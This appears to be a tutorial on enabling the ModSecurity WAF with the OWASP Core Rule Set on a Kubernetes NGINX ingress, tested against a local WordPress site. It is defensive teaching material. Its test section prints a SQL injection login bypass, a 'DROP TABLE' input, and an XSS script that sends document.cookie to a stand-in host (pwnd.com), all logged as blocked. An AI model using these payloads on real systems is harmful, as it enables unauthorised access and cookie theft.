

## What the WAF?

A web application firewall (WAF) is a security tool that monitors and controls incoming traffic to a web application. It
is used to protect web applications from various types of attacks, such as SQL injection, cross-site scripting (XSS),
and file inclusion vulnerabilities. WAFs also help to prevent unauthorized access to sensitive data and can be used to
comply with security regulations. Overall, a WAF is an important tool to help keep web applications and the data they
handle secure.

## Introduction to Technologies

NGINX is Kubernetes most popular ingress controller with powerful open source add-ons. We will be exploring using
ModSecurity engine to secure our publicly exposed services.

[NGINX by Kubernetes community](https://artifacthub.io/packages/helm/ingress-nginx/ingress-nginx) is used to control
external access to services by routing incoming traffic.

[Minikube](https://minikube.sigs.k8s.io/docs/) is a tool for running a single-node Kubernetes cluster locally on your
computer, it allows developers to test and develop applications that run on Kubernetes. It is open-source and available
for Linux, macOS and Windows.

[ModSecurity](https://github.com/SpiderLabs/ModSecurity) is an open-source web application firewall (WAF) module for the
Apache, Nginx, and IIS web servers. It can be used to protect web applications from various types of attacks, such as
SQL injection and cross-site scripting (XSS). It provides a set of rules that can be used to detect and block malicious
requests.

[ModSecurity OWASP Core Rule Set (CRS)](https://github.com/coreruleset/coreruleset) is a collection of generic attack
detection rules for the ModSecurity web application firewall (WAF). It provides protection against a wide range of known
web application vulnerabilities and misconfigurations, such as SQL injection and cross-site scripting. It is developed
and maintained by the Open Web Application Security Project (OWASP).

## Flowchart


[Ingress Networking Video](https://youtu.be/40VfZ_nIFWI)
## Development Cluster Setup

We can use Minikube to create a local desktop kubernetes cluster. After installation, we need to start our cluster.

```shell
minikube start
```

## Creating a testing application

We will use WordPress as an example application and create the ingress for the service.

This helm deployment with set up WordPress frontend with a MariaDB backend and expose the application internally using a
Cluster IP service.

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
helm upgrade --install wordpress bitnami/wordpress --set service.type=ClusterIP --set wordpressPassword='yolo' --version 15.2.33
```

```shell
kubectl get service
NAME                TYPE           CLUSTER-IP      EXTERNAL-IP   PORT(S)         AGE
...
wordpress           ClusterIP      10.96.22.55     <none>        80/TCP,443/TCP  10m
wordpress-mariadb   ClusterIP      10.101.67.174   <none>        3306/TCP        10m
```

## Configuring our Ingress

We can edit our ingress via a config map or helm override variables, we will be using helm override variables. From the
NGNIX Ingress
controller [site](https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/configmap/#configmaps) we
can see the enable-modsecurity and enable-owasp-modsecurity-crs are off by default. We can also edit the
[modsecurity-snippet](https://github.com/SpiderLabs/ModSecurity/blob/v3/master/modsecurity.conf-recommended) to
configure Modsecurity to our liking.

Here is a basic example

```yaml
controller:
  config:
    # Enable Modsecurity and the OWASP Core rule set
    enable-modsecurity: "true"
    enable-owasp-modsecurity-crs: "true"
    # Update ModSecurity config and rules
    modsecurity-snippet: |
      # Enable prevention mode. Can be any of: DetectionOnly,On,Off
      SecRuleEngine On

      # Enable scanning of the request body
      SecRequestBodyAccess On

      # On 403 response log
      SecAuditLog /dev/stdout
      SecAuditLogFormat JSON
      SecAuditEngine RelevantOnly
```

minikube tunnel runs as a process, creating a network route on the host to the service CIDR of the cluster using the
cluster’s IP address as a gateway. The tunnel command exposes the external IP directly to any program running on the
host operating system.

```shell
minikube tunnel
```

Applying nginx helm chart

```shell
helm repo add nginx https://helm.nginx.com/stable
helm repo update
helm install ingress-nginx -f ./nginx-helm-values.yaml ingress-nginx/ingress-nginx -n nginx-ingress --create-namespace --version 0.16.0
```

Applying ingress to WordPress service

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: wordpress-ingress
  annotations:
    kubernetes.io/ingress.class: "nginx"
spec:
  rules:
    - host: mynewblog.ca
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: wordpress
                port:
                  number: 80
```

Adding local DNS to route using our ingress. Open cmd as admin

```shell
notepad c:\Windows\System32\Drivers\etc\hosts
```

Append record pointing to ingress ip

```shell
127.0.0.1 mynewblog.ca
```


## Test out our WAF

Let\'s navigate to the "Hello world!" post and try to leave some comments

### Good comment


### Result

Allows us to leave the comment, note this is expected to be moderator approved for this WordPress plugin.


### SQL Injection

An example of a SQL injection attack is when an attacker inputs a malicious SQL statement into a login form's input
field. The attack could take the form of entering the following into the login form's "username" field:

```
' OR 1=1 --
```

```sql
SELECT *
FROM users
WHERE username = ''
   OR 1 = 1 - -' AND password = 'password_entered_by_user'
```

This query will always return true and therefore the attacker will be able to login without knowing the correct
credentials. In this example, the attacker is able to bypass the login form and gain unauthorized access to the
application's data by injecting a malicious SQL statement into the input field.




#### Log

```shell
kubectl logs deployment/ingress-nginx-controller
```

```json
{
  "transaction": {
    "client_ip": "172.17.0.1",
    "time_stamp": "Sun Jan 29 00:35:12 2023",
    "server_id": "f08c3b1b9631dae9ae3fcc0eb2a796ab80f25776",
    "client_port": 60820,
    "host_ip": "172.17.0.14",
    "host_port": 80,
    "unique_id": "167495251246.489669",
    "request": {
      "method": "POST",
      "http_version": 1.1,
      "uri": "/wp-comments-post.php",
      "body": "comment=Great+stuff+Captain%21&author=jack%3B+DROP+TABLE+Suppliers&email=jack%40mailinator.com&url=jackattack.ca&submit=Post+Comment&comment_post_ID=1&comment_parent=0",
      "headers": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Cache-Control": "max-age=0",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36",
        "DNT": "1",
        "Origin": "http://mynewblog.ca",
        "Referer": "http://mynewblog.ca/2023/01/24/hello-world/?unapproved=2&moderation-hash=4b3bb66b25ed68730461b027d1e2466e",
        "Content-Length": "167",
        "Connection": "keep-alive",
        "Host": "mynewblog.ca",
        "Accept-Encoding": "gzip, deflate",
        "Cookie": "wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US",
        "Accept-Language": "en-US,en;q=0.9"
      }
    },
    "response": {
      "http_code": 403,
      "headers": {
        "Server": "",
        "Server": "",
        "Date": "Sun, 29 Jan 2023 00:35:12 GMT",
        "Content-Length": "548",
        "Content-Type": "text/html",
        "Connection": "keep-alive"
      }
    },
    "producer": {
      "modsecurity": "ModSecurity v3.0.8 (Linux)",
      "connector": "ModSecurity-nginx v1.0.2",
      "secrules_engine": "Enabled",
      "components": [
        "OWASP_CRS/3.3.4\""
      ]
    },
    "messages": [
      {
        "message": "SQL Injection Attack Detected via libinjection",
        "details": {
          "match": "detected SQLi using libinjection.",
          "reference": "v785,26",
          "ruleId": "942100",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf",
          "lineNumber": "46",
          "data": "Matched Data: n;Tnn found within ARGS:author: jack; DROP TABLE Suppliers",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [],
          "maturity": "0",
          "accuracy": "0"
        }
      },
      {
        "message": "Inbound Anomaly Score Exceeded (Total Score: 5)",
        "details": {
          "match": "Matched \"Operator `Ge' with parameter `5' against variable `TX:ANOMALY_SCORE' (Value: `5' )",
          "reference": "",
          "ruleId": "949110",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-949-BLOCKING-EVALUATION.conf",
          "lineNumber": "81",
          "data": "",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-generic"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      }
    ]
  }
}
```

We can see the request triggered a rule:

- 942100: SQL Injection Attack Detected via libinjection

Causing the scoring limit to be exceeded:

- 949110: Inbound Anomaly Score Exceeded (Total Score: 5)

### Cross-site scripting

Cross-site scripting (XSS) is a security vulnerability that allows attacker to inject malicious code into web pages
viewed by other users, stealing sensitive information or perform other malicious actions.


#### Log

```shell
kubectl logs deployment/ingress-nginx-controller
```

```json
{
  "transaction": {
    "client_ip": "172.17.0.1",
    "time_stamp": "Sun Jan 29 00:31:05 2023",
    "server_id": "f08c3b1b9631dae9ae3fcc0eb2a796ab80f25776",
    "client_port": 42335,
    "host_ip": "172.17.0.14",
    "host_port": 80,
    "unique_id": "167495226530.605592",
    "request": {
      "method": "POST",
      "http_version": 1.1,
      "uri": "/wp-comments-post.php",
      "body": "comment=Great+stuff+Captain%21%0D%0A%3Cscript%3E%0D%0Awindow.location%3D%22http%3A%2F%2Fpwnd.com%3Fcookie%3D%22+%2B+document.cookie%0D%0A%3C%2Fscript%3E&author=jack&email=jack%40mailinator.com&url=jackattack.ca&submit=Post+Comment&comment_post_ID=1&comment_parent=0",
      "headers": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Cache-Control": "max-age=0",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36",
        "DNT": "1",
        "Origin": "http://mynewblog.ca",
        "Referer": "http://mynewblog.ca/2023/01/24/hello-world/?unapproved=2&moderation-hash=4b3bb66b25ed68730461b027d1e2466e",
        "Content-Length": "265",
        "Connection": "keep-alive",
        "Host": "mynewblog.ca",
        "Accept-Encoding": "gzip, deflate",
        "Cookie": "wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US",
        "Accept-Language": "en-US,en;q=0.9"
      }
    },
    "response": {
      "body": "<html>\r\n<head><title>403 Forbidden</title></head>\r\n<body>\r\n<center><h1>403 Forbidden</h1></center>\r\n<hr><center>nginx</center>\r\n</body>\r\n</html>\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n<!-- a padding to disable MSIE and Chrome friendly error page -->\r\n",
      "http_code": 403,
      "headers": {
        "Server": "",
        "Server": "",
        "Date": "Sun, 29 Jan 2023 00:31:05 GMT",
        "Content-Length": "548",
        "Content-Type": "text/html",
        "Connection": "keep-alive"
      }
    },
    "producer": {
      "modsecurity": "ModSecurity v3.0.8 (Linux)",
      "connector": "ModSecurity-nginx v1.0.2",
      "secrules_engine": "Enabled",
      "components": [
        "OWASP_CRS/3.3.4\""
      ]
    },
    "messages": [
      {
        "message": "XSS Attack Detected via libinjection",
        "details": {
          "match": "detected XSS using libinjection.",
          "reference": "v755,102t:utf8toUnicode,t:urlDecodeUni,t:htmlEntityDecode,t:jsDecode,t:cssDecode,t:removeNulls",
          "ruleId": "941100",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf",
          "lineNumber": "38",
          "data": "Matched Data: XSS data found within ARGS:comment: Great stuff Captain!\r\n<script>\r\nwindow.location=\"http://pwnd.com?cookie=\"   document.cookie\r\n</script>",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-xss",
            "paranoia-level/1",
            "OWASP_CRS",
            "capec/1000/152/242"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      },
      {
        "message": "XSS Filter - Category 1: Script Tag Vector",
        "details": {
          "match": "Matched \"Operator `Rx' with parameter `(?i)<script[^>]*>[\\s\\S]*?' against variable `ARGS:comment' (Value: `Great stuff Captain!\\x0d\\x0a<script>\\x0d\\x0awindow.location=\"http://pwnd.com?cookie=\" + document.coo (20 characters omitted)' )",
          "reference": "o22,8v755,102t:utf8toUnicode,t:urlDecodeUni,t:htmlEntityDecode,t:jsDecode,t:cssDecode,t:removeNulls",
          "ruleId": "941110",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf",
          "lineNumber": "64",
          "data": "Matched Data: <script> found within ARGS:comment: Great stuff Captain!\r\n<script>\r\nwindow.location=\"http://pwnd.com?cookie=\"   document.cookie\r\n</script>",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-xss",
            "paranoia-level/1",
            "OWASP_CRS",
            "capec/1000/152/242"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      },
      {
        "message": "NoScript XSS InjectionChecker: HTML Injection",
        "details": {
          "match": "Matched \"Operator `Rx' with parameter `(?i:(?:<\\w[\\s\\S]*[\\s\\/]|['\\\"](?:[\\s\\S]*[\\s\\/])?)(?:on(?:d(?:e(?:vice(?:(?:orienta|mo)tion|proximity|found|light)|livery(?:success|error)|activate)|r(?:ag(?:e(?:n(?:ter|d)|xit)|(?:gestur|leav)e|start|d (3146 characters omitted)' against variable `ARGS:comment' (Value: `Great stuff Captain!\\x0d\\x0a<script>\\x0d\\x0awindow.location=\"http://pwnd.com?cookie=\" + document.coo (20 characters omitted)' )",
          "reference": "o22,7v755,102t:utf8toUnicode,t:urlDecodeUni,t:htmlEntityDecode,t:jsDecode,t:cssDecode,t:removeNulls",
          "ruleId": "941160",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf",
          "lineNumber": "181",
          "data": "Matched Data: <script found within ARGS:comment: Great stuff Captain!\r\n<script>\r\nwindow.location=\"http://pwnd.com?cookie=\"   document.cookie\r\n</script>",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-xss",
            "paranoia-level/1",
            "OWASP_CRS",
            "capec/1000/152/242"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      },
      {
        "message": "Node-Validator Blacklist Keywords",
        "details": {
          "match": "Matched \"Operator `Pm' with parameter `document.cookie document.write .parentnode .innerhtml window.location -moz-binding <!-- --> <![cdata[' against variable `ARGS:comment' (Value: `Great stuff Captain!\\x0d\\x0a<script>\\x0d\\x0awindow.location=\"http://pwnd.com?cookie=\" + document.coo (20 characters omitted)' )",
          "reference": "o32,15v755,102t:utf8toUnicode,t:urlDecodeUni,t:htmlEntityDecode,t:jsDecode,t:cssDecode,t:lowercase,t:removeNulls",
          "ruleId": "941180",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf",
          "lineNumber": "232",
          "data": "Matched Data: window.location found within ARGS:comment: great stuff captain!\r\n<script>\r\nwindow.location=\"http://pwnd.com?cookie=\"   document.cookie\r\n</script>",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-xss",
            "paranoia-level/1",
            "OWASP_CRS",
            "capec/1000/152/242"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      },
      {
        "message": "Inbound Anomaly Score Exceeded (Total Score: 20)",
        "details": {
          "match": "Matched \"Operator `Ge' with parameter `5' against variable `TX:ANOMALY_SCORE' (Value: `20' )",
          "reference": "",
          "ruleId": "949110",
          "file": "/etc/nginx/owasp-modsecurity-crs/rules/REQUEST-949-BLOCKING-EVALUATION.conf",
          "lineNumber": "81",
          "data": "",
          "severity": "2",
          "ver": "OWASP_CRS/3.3.4",
          "rev": "",
          "tags": [
            "application-multi",
            "language-multi",
            "platform-multi",
            "attack-generic"
          ],
          "maturity": "0",
          "accuracy": "0"
        }
      }
    ]
  }
}
```

We can see the request triggered a few rules:

- 941100: XSS Attack Detected via libinjection
- 941110: XSS Filter - Category 1: Script Tag Vector
- 941160: NoScript XSS InjectionChecker: HTML Injection
- 941180: Node-Validator Blacklist Keywords

Ultimately triggering scoring limit:

- 949110: Inbound Anomaly Score Exceeded (Total Score: 20)

## ModSecurity Scoring System

ModSecurity uses a rule-based system to detect and prevent common web attacks. Each rule is associated with a score,
which is a numeric value that represents the severity of the potential threat. When a request is made to a protected web
application, ModSecurity evaluates the request against its rules and assigns a score for each rule that is triggered.
The scoring limit is a blocking threshold. The scoring limit can be adjusted as needed in the ModSecurity configuration.

## Conclusion

A WAF can provide security from common attacks. From my experience using WAFs there will be a some false positives that
will block valid requests. Using the logs, WAF exclusions can be created to modifying existing rules to exclude certain
types of traffic from being blocked.

## Helpful links

- [OWASP ModSecurity Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/)
- [NGINX Annotations: ModSecurity](https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/annotations/#modsecurity)
- [How to tune your WAF installation to reduce false positives](https://www.oreilly.com/content/how-to-tune-your-waf-installation-to-reduce-false-positives/)
- [Kubernetes NGINX Ingress WAF with ModSecurity. From zero to hero!](https://systemweakness.com/nginx-ingress-waf-with-modsecurity-from-zero-to-hero-fa284cb6f54a#6f5a)
